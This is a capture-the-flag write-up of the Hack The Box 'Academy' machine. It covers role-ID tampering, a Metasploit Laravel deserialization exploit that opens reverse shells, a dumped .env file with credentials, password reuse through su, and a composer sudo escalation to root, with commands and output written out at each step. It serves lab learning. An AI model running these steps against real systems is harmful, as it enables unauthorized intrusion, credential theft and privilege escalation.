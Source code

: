 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Academy
- Description: Academy is an easy difficulty Linux machine that features an Apache server hosting a PHP website. The website is found to be the HTB Academy learning platform. Capturing the user registration request in Burp reveals that we are able to modify the Role ID, which allows us to access an admin portal. This reveals a vhost, that is found to be running on Laravel. Laravel debug mode is enabled, the exposed API Key and vulnerable version of Laravel allow us carry out a deserialization attack that results in Remote Code Execution. Examination of the Laravel `.env` file for another application reveals a password that is found to work for the `cry0l1t3` user, who is a member of the `adm` group. This allows us to read system logs, and the TTY input audit logs reveals the password for the `mrb3n` user. `mrb3n` has been granted permission to execute composer as root using `sudo`, which we can leverage in order to escalate our privileges.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
```

Upon accessing the webpage, I see a register page:

![](assets/images/2024-02-20-HTB-Academy-Writeup-image-1.png)

I always try to capture the request,  so I'll capture the request:
![](assets/images/2024-02-20-HTB-Academy-Writeup-image-2.png)

This has an interesting parameter, roleid, let me try to change that to a 1 and send it in. Upon first inspection, it didn't seem like it did anything, but let's check on our dirsearch:

```bash
 dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u http:/
/academy.htb/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, html | HTTP method: GET | Threads: 64 | Wordlist size: 1102725

Output File: /home/kali/HTB/reports/http_academy.htb/__24-02-20_07-25-34.txt

Target: http://academy.htb/

[07:25:34] Starting: 
[07:25:35] 301 -  311B  - /images  ->  http://academy.htb/images/           
[07:25:35] 403 -  276B  - /images/
[07:25:35] 302 -   54KB - /home.php  ->  login.php                          
[07:25:36] 200 -  964B  - /login.php                                        
[07:25:36] 200 - 1001B  - /register.php                                     
[07:25:37] 403 -  276B  - /icons/                                           
[07:25:41] 200 -  968B  - /admin.php                                        
[07:25:54] 200 -    0B  - /config.php
```

This shows us an admin page, when I access it, it requires me to login. So I use the same credentials and it lets me login! The 1 I guess means admin and the 0 means non-admin. 

![](assets/images/2024-02-20-HTB-Academy-Writeup-image-3.png)

Ahh, this shows us a subdomain, I'll add it to my vhost and access it:

![](assets/images/2024-02-20-HTB-Academy-Writeup-image-4.png)

Accessing it shows me an error in what seems to be a laravel app, let me see if I can figure out the version and exploit it!

Upon inspecting the page closer, I find the app key in clear text:

![](assets/images/2024-02-20-HTB-Academy-Writeup-image-5.png)

There is a laravel exploit due to the exposure of the app key! Let's attempt to exploit it!

```bash
msf6 exploit(unix/http/laravel_token_unserialize_exec) > run

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] Command shell session 1 opened (10.10.14.12:4444 -> 10.10.10.215:53016) at 2024-02-20 07:35:36 -0500

[*] Command shell session 2 opened (10.10.14.12:4444 -> 10.10.10.215:53018) at 2024-02-20 07:35:37 -0500
[*] Command shell session 3 opened (10.10.14.12:4444 -> 10.10.10.215:53020) at 2024-02-20 07:35:37 -0500
[*] Command shell session 4 opened (10.10.14.12:4444 -> 10.10.10.215:53022) at 2024-02-20 07:35:38 -0500
whoami
www-data
ls
css
favicon.ico
index.php
js
robots.txt
web.config
```

I got a shell!
## Privilege Escalation

Doing my regular enum, I notice a file that stands out:

```bash
www-data@academy:/var/www/html/academy$ cat .env
cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
SESSION_LIFETIME=120
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
```

This has some database credentials, before I use it there, I also noticed we have a bunch of users on the machine, I want to see if I can login as any of them!

```bash
21y4d  ch4p  cry0l1t3  egre55  g0blin  mrb3n
www-data@academy:/home$ su 21y4d
su 21y4d
Password: mySup3rP4s5w0rd!!

su: Authentication failure
www-data@academy:/home$ su ch4p
su ch4p
Password: mySup3rP4s5w0rd!!

su: Authentication failure
www-data@academy:/home$ su cry0l1t3
su cry0l1t3
Password: mySup3rP4s5w0rd!!

$ whoami
whoami
cry0l1t3
```

Going down the list, I eventually get cry0l1t3!

I look at my groups and see I am in the adm group, I also see that we have audit logs installed so I take a look there and find a new set of creds!
![](assets/images/2024-02-20-HTB-Academy-Writeup-image-6.png)

I change users and check sudo privileges:

```bash
mrb3n@academy:~$ sudo -l
sudo -l
[sudo] password for mrb3n: mrb3n_Ac@d3my!

Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

That's a GTFOBin so I'll go ahead and exploit it!

```bash
mrb3n@academy:~$ TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script xTF=$(mktemp -d)
mrb3n@academy:~$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:~$ 
sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# whoami
whoami
root
#
```

We are root!

best,
gerbsec